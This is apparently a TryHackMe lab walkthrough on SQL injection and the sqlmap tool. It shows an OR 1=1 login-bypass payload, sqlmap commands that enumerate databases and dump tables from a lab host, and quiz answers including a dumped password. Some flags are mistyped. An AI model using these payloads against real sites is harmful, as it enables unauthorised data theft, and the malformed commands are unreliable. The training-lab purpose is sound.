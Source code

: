 # SQLMap: the Basics Tryhackme Walkthrough 

Room URL:


---
## Task 1: Introduction

Let’s talk about one of the sneakiest tricks in the hacker’s toolkit: **SQL Injection**! 

Imagine a website as a polite waiter taking orders from users and delivering them to a database "kitchen" in the back. When you search for something or log in, you’re basically telling the waiter, “Hey, go grab this info from the kitchen.” And the waiter (website) sends your request to the database in SQL, the language it understands.

Now, here’s where things get spicy: SQL Injection is like whispering extra instructions to the waiter to mess with the kitchen. Instead of just ordering a burger, you slyly add, “And also sneak me the manager’s password list.” The unassuming waiter takes it back to the kitchen without question, leading to all sorts of mayhem!

But how is this even possible? Databases work with a system that uses SQL, like MySQL or PostgreSQL, to manage all that data. When websites don’t secure their database connections, attackers can input special SQL commands to trick the website into coughing up sensitive info. This is why SQL injection remains one of the top vulnerabilities in cybersecurity.

So, buckle up, because in this session, you’ll dive deep into SQL Injection basics, learn how it’s done, and even try it out yourself in a hands-on challenge! Who knew hacking could be this educational?

**Question: Which language builds the interaction between a website and its database?**

**Answer:** sql

---

## Task 2: SQL Injection Vulnerability

Imagine you’re logging into a website, trying to get through a login page with your trusty username "John" and secret password "Un@detectable444." Typically, the website sends a query to the database, which looks a bit like this:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';
```

The database checks if you exist and whether that password matches. If yes, you’re in! But hackers have a trick up their sleeve called **SQL Injection** that lets them twist this query into something that works for them.

Let’s say this login page is sloppy with security and doesn’t clean up user input properly. An attacker could type something like:

**Username:** John  
**Password:** abc' OR 1=1;-- -

Now the query becomes:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```

The password part now reads:

- Password = 'abc' (no match)
- OR 1=1 (which is always true!)

So the database just shrugs and lets them in. The `--` tells the database to ignore the rest, bypassing the real password check.

**Lesson Learned:** Clean up your input fields, or you might just hand out the keys to the kingdom, courtesy of SQL Injection!

**Question: Which boolean operator checks if at least one side of the operator is true for the condition to be true?**

**Answer:** or

**Question: Is 1=1 in an SQL query always true? (YEA/NAY)**

**Answer:** Yea

---

## Task 3: Automated SQL Injection Tool

Feeling like hacking databases is too much typing? Enter **SQLMap**, the database burglar’s best friend.

Forget trying to break in manually — SQLMap does the hard work for you. It’s like a tour guide for database heists, handling everything from picking the lock to finding the treasure.

**SQLMap** is a command-line tool that turns you into a database wizard, as long as you have permission (seriously). Start by launching it in your Linux terminal, and if you’re feeling overwhelmed, try `--wizard` mode. Think of it as SQLMap holding your hand.

Want to test a URL for weakness? Just feed it a target URL, like:

```
sqlmap -u http://sqlmaptesting.thm/search?cat=1
```

SQLMap will dig in. If it finds a weak point, it’ll reveal the details: error-based, time-based, UNION query, etc.

Once you’ve confirmed a vulnerable URL:

- Use `--dbs` to list the databases
- Use `-D` to pick one
- Use `--tables` to browse inside
- Use `--dump` to get all the records

In a few commands, you’re a digital Indiana Jones uncovering the secrets of SQL!

**Question: Which flag in the SQLMap tool is used to extract all the databases available?**

**Answer:** --dbs

**Question: What would be the full command of SQLMap for extracting all tables from the “members” database?**  
**(Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)**

**Answer:**
```
sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables
```

---
# TASK 4: Practical Exercise

### Extract the Full GET Request URL:
To view GET parameters, right-click on the page and select “Inspect.”

Go to the Network tab, enter dummy credentials (e.g., email=test and password=test), and hit login.

Locate the GET request; it will look like this:

`http://MACHINE_IP/ai/includes/user_login?email=test&password=test`

Copy this URL, as it includes the GET parameters.

### SQLMap Command Setup:
In the terminal, use the SQLMap tool with this command (substitute MACHINE_IP with the IP address displayed in your AttackBox):

`sqlmap -u 'http://MACHINE_IP/ai/includes/user_login?email=test&password=test' - level=5`

Wrapping the URL in single quotes (‘ ‘) avoids issues with special characters.

### Answering SQLMap Prompts:
When SQLMap asks questions, respond as follows:

- Skip test payloads for other DBMSes: Enter `y`.
- Include all MySQL-specific tests: Enter `y`.
- Try random integer values for ‘–union-char’: Enter `y`.
- Keep testing other parameters if email is vulnerable: Enter `n`.

### SQLMap Results:
After running, SQLMap should identify SQL injection vulnerabilities in the email parameter.

**Question 1: How many databases are available in this web application?**

`sqlmap -u “http://<target-ip>/ai/includes/user_login?email=test&password=test” --dbs -level=5`

**Answer:** 6

**Question 2 : What is the name of the table available in the “ai” database?**

`sqlmap -u “http://<target-ip>/ai/includes/user_login?email=test&password=test” -D ai --tables`

**Answer:** Users

**Question 3 : What is the password of the email test@chatai.com?**

from the ai database dump the Users table

`sqlmap -u "http://<target-ip>/ai/includes/user_login?email=test&password=test" -D ai -T user --dump -level=5`

**Answer:** 12345678
